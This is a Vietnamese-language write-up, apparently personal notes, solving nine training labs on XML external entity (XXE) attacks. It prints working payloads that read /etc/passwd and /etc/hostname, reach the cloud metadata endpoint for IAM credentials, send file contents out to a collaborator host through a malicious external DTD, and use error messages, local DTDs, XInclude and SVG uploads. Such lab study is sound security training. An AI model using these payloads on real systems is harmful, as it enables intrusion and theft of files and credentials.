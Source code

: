 # Lab 1: Exploiting XXE using external entities to retrieve files
![image](https://hackmd.io/_uploads/r1d8ee1QA.png)

Cú pháp external entities: `<!ENTITY entity_name SYSTEM "entity_value">`
Khai thác bằng cách:
- Thêm phần tử DOCTYPE định nghĩa external entities chứa path của file.
- Sửa giá trị dữ liệu trong XML để trả về external entities vừa thêm

![image](https://hackmd.io/_uploads/SyonMe1X0.png)

![image](https://hackmd.io/_uploads/ryf0fgJXR.png)

# Lab 2: Exploiting XXE to perform SSRF attacks
![image](https://hackmd.io/_uploads/Hyb2Nx17R.png)

Tương tự bài trên, SSRF bằng cách định nghĩa một external entity `&xxe;` mà giá trị của nó là nội dung server có địa chỉ `http://169.254.169.254/` trả về khi GET đến và sử dụng entity `&xxe;` tại trường `productId`
![image](https://hackmd.io/_uploads/SkISClyQ0.png)

Server trả về thông tin chứa đường dẫn của EC2 metadata. Làm tương tự với các thư mục con tiếp theo, ta thu được:
```
http://169.254.169.254/latest/meta-data/iam/security-credentials/admin
```
![image](https://hackmd.io/_uploads/Sy8aRxJQA.png)

![image](https://hackmd.io/_uploads/HkvRAgyQC.png)

# Lab 3: Blind XXE with out-of-band interaction
![image](https://hackmd.io/_uploads/rkQ43VlmC.png)

Tương tự lab trước, nhưng chỉ trả về 1 thông báo
![image](https://hackmd.io/_uploads/rJdaaVxQC.png)

Sử dụng Burp Collaborator để nhận HTTP request
![image](https://hackmd.io/_uploads/HyKwaNxXC.png)

Có được DNS lookup và HTTP request
![image](https://hackmd.io/_uploads/By686VlQC.png)

![image](https://hackmd.io/_uploads/SyJIaVx70.png)

# Lab 4: Blind XXE with out-of-band interaction via XML parameter entities
![image](https://hackmd.io/_uploads/rJesgBlQA.png)

Ở bài này server đã block các thực thể thông thường
![image](https://hackmd.io/_uploads/ByIT-Bx7R.png)

Sử dụng XML parameter entities để bypass. Thay thế `&` bằng `%` - sử dụng trong DTD để khai báo và tham chiếu đến các thực thể trong DTD
**Chú ý: `%` chỉ được sử dụng trong DTD**
![image](https://hackmd.io/_uploads/r1kKESgXA.png)

![image](https://hackmd.io/_uploads/rkFt4Sg7A.png)

![image](https://hackmd.io/_uploads/ryxqNrxXA.png)

# Lab 5: Exploiting blind XXE to exfiltrate data using a malicious external DTD
![image](https://hackmd.io/_uploads/ry9ODrlmC.png)
Lab này yêu cầu đọc nội dung file `/etc/hostname`

Lab này cũng block entity như lab 4
![image](https://hackmd.io/_uploads/rkdeiHgmC.png)

Bypass tương tự
![image](https://hackmd.io/_uploads/HkmfsHeXC.png)
![image](https://hackmd.io/_uploads/SJWQjHgXR.png)

Để đọc được file thì thực hiện như sau:
#### 1. Tải lên 1 DTD độc hại lên server
Định nghĩa một parameter entity `file` chứa nội dung tệp `/etc/hostname`
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
```
Định nghĩa một entity `eval` chứa parameter entity `exfiltrate` truy cập tới Burp Collaborator và gửi tham số `x` với tham chiếu `%file;`
```xml
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://rql45k44aqih09lfyw1nl8wv9mfh37rw.oastify.com/?x=%file;'>">
```
`&#x25;` là HTML encode của `%` vì chứa trong một định nghĩa parameter entity khác.

File DTD cuối cùng như sau:
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://rql45k44aqih09lfyw1nl8wv9mfh37rw.oastify.com/?x=%file;'>">
%eval;
%exfiltrate;
```
Vì parameter entity cần được gọi tham chiếu mới có thể hoạt động nên cần thêm `%eval;`, `%exfiltrate;`

Tải lên server
![image](https://hackmd.io/_uploads/SJMaMLgQ0.png)

#### 2. Định nghĩa 1 parameter entities khiến server gọi đến DTD vừa tải lên
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0ab10043042794f6805c3ee4013d001d.exploit-server.net/exploit.dtd"> %xxe;]>
```
![image](https://hackmd.io/_uploads/Hy3wXUgQA.png)
![image](https://hackmd.io/_uploads/SyPFmLxmA.png)

# Lab 6: Exploiting blind XXE to retrieve data via error messages
![image](https://hackmd.io/_uploads/rJfXIUeX0.png)

Tương tự lab trên.
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
Khi server truy cập đến file `/nonexistent/etc/passwd` thì phát hiện không tồn tại và trả về lỗi chứa nội dung file `/etc/passwd`
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a5600d603c83d8085fb438601b600dd.exploit-server.net/exploit.dtd"> %xxe;]>
```
![image](https://hackmd.io/_uploads/SJOiP8xXA.png)
![image](https://hackmd.io/_uploads/rk-2wUlmR.png)

# Lab 7: Exploiting XXE to retrieve data by repurposing a local DTD
![image](https://hackmd.io/_uploads/BJdOlDxQR.png)

DNS lookup thành công , chứng tỏ có lỗ hổng Blind XXE
![image](https://hackmd.io/_uploads/H1OkyYeQ0.png)
![image](https://hackmd.io/_uploads/HyZeyYe7R.png)

Lab này đã không cho phép truy cập tới external DTD nên ta sẽ dùng local DTD. Đề cho sẵn DTD tại `/usr/share/yelp/dtd/docbookx.dtd`

Nếu đường dẫn đúng, hệ thống sẽ trả về kết quả
![image](https://hackmd.io/_uploads/rkJLetgX0.png)

Nếu sai trả về lỗi
![image](https://hackmd.io/_uploads/HyZqgFl7A.png)

Payload
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
Trong đó:
- `local_dtd` chứa nội dung file local DTD `/usr/share/yelp/dtd/docbookx.dtd` là local DTD
- `ISOamso` chứa định nghĩa: `file` chứa nội dung file `/etc/passwd`, `eval` chứa định nghĩa parameter entity `error` chứa nội dung `/etc/passwd` sau khi tham chiếu tới `%file;`
- Gọi tham chiếu các entity.

![image](https://hackmd.io/_uploads/B1C0btlmR.png)
![image](https://hackmd.io/_uploads/BkMzfYxQA.png)

# Lab 8: Exploiting XInclude to retrieve files
![image](https://hackmd.io/_uploads/B1MwVKxmC.png)

Lab này không chứa XML nên ta không để định nghĩa hay sửa lại phần tử DOCTYPE. Dùng XInclude để thay thế.
![image](https://hackmd.io/_uploads/r1HsHFeXR.png)

Để tấn công XInclude, tham chiếu XInclude namespace và cung cấp đường dẫn đến file cần đọc
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
![image](https://hackmd.io/_uploads/S1n6SFeQA.png)
![image](https://hackmd.io/_uploads/SkT0SFlQA.png)

# Lab 9: Exploiting XXE via image file upload 
![image](https://hackmd.io/_uploads/S13aPFlQ0.png)
Lab này chứa lỗ hổng XXE trong chức năng upload ảnh ở phần comment

Vì thư viện xử lí ảnh `png, jpg` có hỗ trợ xử lí file `svg` nên ta có thể upload một file `.svg` có chứa XML payload.
Payload kiếm được ở PayloadsAllTheThings:
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

Upload ảnh chứa payload này
![image](https://hackmd.io/_uploads/rJzxcFxQA.png)

![image](https://hackmd.io/_uploads/ryJ1ctxXA.png)
![image](https://hackmd.io/_uploads/ryjLcYlmR.png)

Cuối cùng là submit
![image](https://hackmd.io/_uploads/BJ_d5FlQC.png)
